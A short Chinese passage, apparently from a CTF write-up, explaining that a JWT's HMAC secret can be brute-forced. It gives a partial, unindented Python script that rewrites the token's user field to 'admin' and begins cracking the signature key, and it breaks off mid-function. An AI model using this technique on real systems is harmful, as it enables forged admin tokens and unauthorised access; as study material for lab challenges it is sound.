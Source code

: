 ### 加密方式可爆破

两种方法，一种用hashcat或者自己写脚本，以下是我写的python脚本

```python
import base64



import hmac



import hashlib



import json






jwt = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjpudWxsfQ.Tr0VvdP6rVBGBGuI_luxGCOaz6BbhC6IxRTlKOW8UjM'





def change_payload(jwt):



payload = jwt.split('.')[1]



orgin_p = json.loads(base64.b64decode(payload+'==').decode('utf-8'))



orgin_p['user']='admin'



changed_p = base64.b64encode(json.dumps(orgin_p).rstrip('=').encode('utf-8'))



return changed_p






def brute_sig(key,object):



new_sign = hmac.new(key, object, hashlib.sha256).digest()

```